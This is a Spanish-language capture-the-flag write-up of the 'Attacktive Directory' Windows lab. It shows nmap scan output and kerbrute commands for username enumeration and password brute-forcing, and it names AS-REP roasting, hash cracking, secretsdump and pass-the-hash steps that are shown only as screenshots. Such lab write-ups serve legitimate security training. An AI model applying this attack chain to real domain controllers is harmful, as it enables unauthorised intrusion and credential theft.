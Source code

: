 #Linux #medium 
### nmap
```python
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -Pn 10.10.124.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-17 17:22 EST
Nmap scan report for 10.10.124.3
Host is up (0.19s latency).
Not shown: 65452 closed tcp ports (reset), 57 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-17 22:21:59Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-02-17T22:23:06+00:00; -40s from scanner time.
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2024-02-16T22:18:45
|_Not valid after:  2024-08-17T22:18:45
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-17T22:22:58+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -40s, deviation: 0s, median: -40s
| smb2-time: 
|   date: 2024-02-17T22:22:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.22 seconds
```

### Ports: 53-80-88-135-139-389-445-464-593-636-3268-3269-3389-5985-9389-47001-49664-49665-49669-49673-9675-49676-49679-49684-49685
###### El puerto 88 nos indica que esta corriendo el protocolo kerberos
###### el puerto 389 nos indica que tenemos una redireccion hacia un domino llamado "spookysec.local"

### Enumeracion del puerto 80
no tenemos mucha informacion del puerto 80
![[Pasted image 20240612152056.png]]
###### vamos a agregar el dominio "spookysec.local"al /etc/hosts

### crackmapexec
esta herramienta nos permite enumerar el puerto smb para obtener un poco de información 
![[Pasted image 20240612152100.png]]

### enum4linux 
otra herramienta para enumerar. en este caso no encontramos nada.
![[Pasted image 20240612152105.png]]

### Kerbrute
vamos a utilizar esta herramienta llamada kerbrute. haremos un git clone del repositorio de github 
![[Pasted image 20240612152109.png]]

###### una ves clonado el repositorio vamos al directorio para instalar los requierements
![[Pasted image 20240612152113.png]]
###### esta herramienta necesita un diccionario de usuarios y uno de contraseñas para poder funcionar
```python
	python3 kerbrute.py -users userlist.txt -passwords passwordlist.txt -domain spookysec.local -t 100
	
	./kerbrute_linux_amd64 userenum --dc 10.10.124.3 -d spookysec.local userlist.txt
```

![[Pasted image 20240612152118.png]]
###### en este caso el usuario que mas llama la atencion es el svc-admin@spookysec.local

###### impacket-GetNPUsers 
de esta manera solicitamos un ticket al domain-controler el cual nos regresa una contraseña en forma de hash 
![[Pasted image 20240612152123.png]]
###### guardamos el ticket en un archivo llamado hash y se lo pasamos a john
![[Pasted image 20240612152130.png]]

### crackmapexec
con esta herramienta podemos validar las credenciales y también podemos ver los recursos compartidos. tenemos un recurso llamado backup
![[Pasted image 20240612152133.png]]

### smbclient 
de esta manera podemos entrar al servicio smb y al servicio compartido
![[Pasted image 20240612152137.png]]
###### decodeamos la clave
![[Pasted image 20240612152140.png]]

### impacket-secretsdump
proporcionamos la clave y podemos listar todos los hash. en este caso tenemos el hash de administrator
![[Pasted image 20240612152144.png]]

###### impacket-psexec

![[Pasted image 20240612152148.png]]

en este momento estamos como usuario administrador ya que logramos aplicar la tecnica pass the hash. 

![[Pasted image 20240612152151.png]]
### WE ARE ROOT

![[Pasted image 20240612152155.png]]